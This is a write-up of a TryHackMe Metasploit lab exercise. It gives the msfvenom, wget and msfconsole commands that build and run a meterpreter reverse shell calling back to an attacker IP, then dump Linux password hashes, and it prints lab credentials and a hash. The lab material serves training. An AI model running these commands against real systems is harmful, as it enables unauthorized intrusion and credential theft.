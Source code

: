 ```yaml
---
title: "An Exercise in Metasploit"
excerpt: A short explanation of how to set a meterpreter shell to obtain password hashes of users.
date: 2025-09-19
---
```


This is task 6 in the room *Metasploit: Exploitation* on TryHackMe. The exercise shows nicely why the Metasploit framework is so powerful: essentially we create a payload through a single command and execute it on the target, providing us with a stable shell and root privileges.

We are given login credentials of one user, namely

```text
user: murphy
password: 1q2w3e4r
```

The goal is to get a meterpreter shell running on the target machine so we can dump the password hashes of all users. 

First, we generate a Linux Meterpreter payload on our local (attacker) machine as follows:

```text
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f elf -o meterpreter.elf
```

The individual constituents of the above command:
- `msfvenom`: A command-line utility that is part of the Metasploit Framework. Its main job is to generate and encode payloads.
- `-p`: The "payload" option.
- `linux/x64/meterpreter/reverse_tcp`: The target OS is Linux with 64-bit architecture. The actual payload, `meterpreter`, is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code. It is typically deployed using in-memory DLL injection to reside entirely in memory.
- `reverse_tcp`: The payload will provide us with a reverse shell, i.e. an outbound TCP connection back to the attacker's machine.
- `LHOST`: **L**istening **Host**. The IP address of the attacker's machine where the payload should connect back to.
- `LPORT`: **L**istening **Port**. The port on the attacker's machine that will be listening for the incoming connection. Here, `4444` is just set as an example.
- `-f elf`: Specifies the **f**ormat to be of type `elf`. The .elf format is comparable to the .exe format in Windows.
- `-o meterpreter.elf`: We simply name the **o**utput `meterpreter.elf`.

Next, we make sure that the payload is executable:

```text
chmod +x meterpreter.elf
```

In order to transfer the payload to the target, we use a Python web server, since the user `murphy` might not have sufficiently elevated privileges for our task:

```text
python3 -m http.server 9000
```

After ssh-ing onto the target as user `murphy`, we fetch the payload, save it in `/tmp` and make sure it is executable, as seen in the next command. Notice that in a real-world (malicious/unauthorized) setting, this would have to be executed by means of phishing/social-engineering etc. In this controlled environment it is straightforward.

```text
wget http://<Your_IP>:9000/meterpreter.elf -O /tmp/meterpreter.elf
chmod +x /tmp/meterpreter.elf
/tmp/meterpreter.elf
```

Back on the attacker machine, we establish a listener, similar to a standard netcat-listener:

```text
msfconsole -q                                   # Start Metasploit interface
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <Your_IP>                             # Same IP as in payload
set LPORT 4444                                  # Same port as in payload
exploit
```

Now for the moment of truth. We run the executable on the target machine with the line

```text
./meterpreter.elf
```

If all goes well, this should just keep running in the CLI of the target and we should see the following output in out local attacker CLI, where we just started the listener:

```text
[*] Meterpreter session 1 opened (<Your_IP>:4444 -> <Target_IP>:<Target_Port>)
meterpreter >
```

We now have a stable reverse shell connection. Check privileges with `getuid` or `whoami`. To dump all hashes, we can use the `post/linux/gather/hashdump` module, but we first need to background the current session. Finally, we run the exploit. Thus, we run the following commands:

```text
meterpreter > background        # Send session to background
use post/linux/gather/hashdump  # This was also the hint given by TryHackMe
set SESSION <ID>                # Replace <ID> with your session number
run
```

We find the hash of the other user (not `murphy`) to be `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`.






